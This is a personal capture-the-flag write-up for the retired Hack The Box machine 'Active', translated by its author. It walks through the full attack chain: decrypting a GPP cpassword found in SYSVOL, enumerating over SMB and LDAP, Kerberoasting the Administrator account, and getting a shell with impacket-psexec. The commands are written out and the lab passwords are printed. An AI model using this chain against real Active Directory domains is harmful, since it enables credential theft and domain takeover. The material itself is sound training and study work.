


---
tags:
  - Reference
---

# :material-microsoft-windows: Active

<span class="pill pill-info">10.10.10.100 · active.htb</span> <span class="pill pill-medium">ad</span> <span class="pill pill-medium">gpp</span> <span class="pill pill-medium">kerberoast</span>

**GPP cpassword → Kerberoast → DA** — my own notes, translated.

!!! warning "Full solution ahead"
    This is a complete walkthrough with working credentials. Retired machine.

**Loot SYSVOL for a GPP password.** The `Replication` share is readable and
carries `Groups.xml` with an encrypted `cpassword`:

```xml
<Properties action="U" newName="" fullName="" description=""
  cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
  userName="active.htb\SVC_TGS"/>
```

The AES key is public, so it decrypts offline:

```bash
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
# -> GPPstillStandingStrong2k18   (active.htb\SVC_TGS)
```

**Authenticated enumeration.** `SVC_TGS` has more access than guest:

```bash
smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100
```



*smbmap as `SVC_TGS` — more shares than guest*

```bash
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' \
  -b "dc=active,dc=htb" -s sub \
  "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" \
  samaccountname | grep sAMAccountName
```

That LDAP filter is worth keeping: `objectCategory=person` limits to users
(not groups/computers), `objectClass=user` narrows further, and
`!(useraccountcontrol:…:=2)` excludes **disabled** accounts (`2` = `ACCOUNTDISABLE`).

```bash
impacket-GetADUsers -all active.htb/svc_tgs -dc-ip 10.10.10.100
```



*`GetADUsers` — accounts and password-set timestamps*

**Kerberoast.** Kerberos ties services to accounts via SPNs, so any account
with an SPN can be roasted:

```bash
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100            # find SPNs
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request   # get the TGS
# crack the $krb5tgs$ hash -> Ticketmaster1968  (Administrator)
```

```bash
impacket-psexec active/Administrator:Ticketmaster1968@10.10.10.100
```

## :material-link-variant: Related

- Back to the index → [HTB Writeups](../htb.md).
